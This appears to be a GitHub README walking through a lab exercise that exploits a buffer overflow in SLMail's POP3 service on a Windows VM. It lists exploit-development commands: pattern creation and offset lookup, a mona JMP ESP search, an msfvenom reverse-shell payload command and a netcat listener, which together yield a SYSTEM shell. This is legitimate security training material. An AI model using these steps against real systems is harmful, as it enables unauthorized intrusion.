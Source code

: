 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>


- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>


- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

<p align="center">
  <img src="" alt="">
</p>


- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

<p align="center">
  <img src="" alt="">
</p>


- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

<p align="center">
  <img src="" alt="">
</p>


- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

<p align="center">
  <img src="" alt="">
</p>


- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

<p align="center">
  <img src="" alt="">
</p>


- Updated “fuzzy.py” with the target IP address and port, then saved changes.

<p align="center">
  <img src="" alt="">
</p>


- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

<p align="center">
  <img src="" alt="">
</p>


- Observed the EIP update to “41414141” in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

<p align="center">
  <img src="" alt="">
</p>


- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

<p align="center">
  <img src="" alt="">
</p>


- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

<p align="center">
  <img src="" alt="">
</p>


- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

<p align="center">
  <img src="" alt="">
</p>


- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

<p align="center">
  <img src="" alt="">
</p>


- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

<p align="center">
  <img src="" alt="">
</p>


- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

<p align="center">
  <img src="" alt="">
</p>


- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>


- Established a netcat listener on the Kali machine using “nc -lvp 4444”.

<p align="center">
  <img src="" alt="">
</p>


- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.

<p align="center">
  <img src="" alt="">
</p>

